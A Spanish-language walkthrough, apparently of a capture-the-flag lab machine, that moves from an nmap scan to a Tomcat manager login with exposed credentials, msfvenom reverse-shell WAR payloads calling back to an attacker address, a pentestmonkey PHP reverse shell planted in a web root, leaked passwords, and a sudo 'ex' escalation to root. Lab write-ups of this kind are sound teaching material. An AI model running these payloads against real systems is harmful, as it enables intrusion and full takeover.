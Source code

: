 Hacemos el escaneo de nmap:
![[Pasted image 20240101185009.png]]
Y un apache es lo que está corriendo en bajo el puerto 80:
![[Pasted image 20240101185139.png]]
Pero sin embargo por el puerto 8080 vemos que está corriendo un tomcat:
![[Pasted image 20240101185251.png]]
Y por estos enlaces podemos ver un lugar de login:
![[Pasted image 20240101185317.png]]
![[Pasted image 20240101185332.png]]
Pero si hacemos clic en cancel, veremos que se nos redirige a otra ventana donde se nos muestran las credenciales:
```bash
tomcat:s3cret
```
![[Pasted image 20240101185442.png]]
Proporcionamos las credenciales y estamos dentro, donde además se nos muestra que podemos subir un archivo WAR:
![[Pasted image 20240101185536.png]]
Creamos con msfvenom un fichero .war malicioso:
```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.37 LPORT=443 -f war -o revshell.war
```
![[Pasted image 20240101190014.png]]
Lo subimos y lo tenemos aquí dentro del servidor:
![[Pasted image 20240101185958.png]]
Y vemos que nos da error, porque este payload generado no es el adecuado:
![[Pasted image 20240101190402.png]]
Por lo que generamos otro con msfvenom añadiendo la parte de jsp, que significa JavaServer Pages:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.37 LPORT=443 -f war > reverse.war
```
Lo ejecutamos:
![[Pasted image 20240101190533.png]]
Hacemos un clic en reverse y estamos dentro:
![[Pasted image 20240101190609.png]]
![[Pasted image 20240101190633.png]]
Para la escalada, podemos lanzar un linpeas y nos encuentra un directorio interesante:
![[Pasted image 20240101191332.png]]
Nos ubicamos dentro del directorio de /etc/tomcat9 y vemos estos archivos:
![[Pasted image 20240101190853.png]]
Y si visualizamos el archivo tomcat-users.xml nos encontramos con unas credenciales del usuario sa y con contraseña salala!!:
```bash
sa:salala!!
```
![[Pasted image 20240101190947.png]]
Por lo que entramos por ssh:
![[Pasted image 20240101191303.png]]
Y vemos un usuario llamado toor:
![[Pasted image 20240101191517.png]]
Podemos intentar ver procesos que estén funcionando en segundo plano y asociados con toor:
```bash
ps aux | grep toor
```
![[Pasted image 20240101191647.png]]
Vemos que el usuario toor está levantando un servicio apache http, por lo que podemos ubicarnos dentro de /var/www/html y ahí colarle una reverse shell en php, por ejemplo la de pentestmonkey:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
![[Pasted image 20240101191835.png]]
Establecemos nuestros datos:
![[Pasted image 20240101191939.png]]
Ahora desde el puerto 80 llamamos a este archivo:
```bash
192.168.0.18/php-reverse-shell.php
```
![[Pasted image 20240101192033.png]]
Y habremos recibido la reverse shell por aquí:
![[Pasted image 20240101192048.png]]
Y ejecutando el comando sudo -l vemos que podemos ejecutar el binario de /ex:
![[Pasted image 20240101192114.png]]
Vemos las instrucciones para escalar privilegios con este binario en la web de gtfobins:
![[Pasted image 20240101192140.png]]
Lo que tenemos que hacer es ejecutar primero sudo ex y luego lanzarnos una sh:
```bash
sudo -u root /usr/bin/ex
!/bin/sh
```
![[Pasted image 20240101192455.png]]
